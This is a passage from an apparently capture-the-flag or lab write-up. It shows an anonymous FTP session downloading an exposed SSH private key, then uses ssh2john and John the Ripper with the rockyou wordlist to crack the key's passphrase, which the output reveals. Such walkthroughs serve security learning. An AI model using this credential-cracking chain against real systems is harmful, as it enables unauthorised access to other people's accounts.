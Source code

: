 ```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1743 Mar 23  2021 id_rsa
-rw-r--r--    1 ftp      ftp            78 Mar 23  2021 note.txt
226 Directory send OK.
ftp> mget *
mget id_rsa? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
226 Transfer complete.
1743 bytes received in 0.00 secs (23.7465 MB/s)
mget note.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (78 bytes).
226 Transfer complete.
78 bytes received in 0.00 secs (1.5827 MB/s)

```

- Get username and password

```bash

└─$ cat note.txt 
I always forget my password. Just let me store an ssh key here.
- errorcauser


└─$ locate ssh2john
/usr/share/john/ssh2john.py
                                                                                                                                                      

└─$ /usr/share/john/ssh2john.py id_rsa > hashfile
                                                                                                                                                      

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashfile 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
cupcake          (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:22 DONE (2022-01-27 09:02) 0.04522g/s 648652p/s 648652c/s 648652C/sa6_123..*7¡Vamos!
Session completed

```
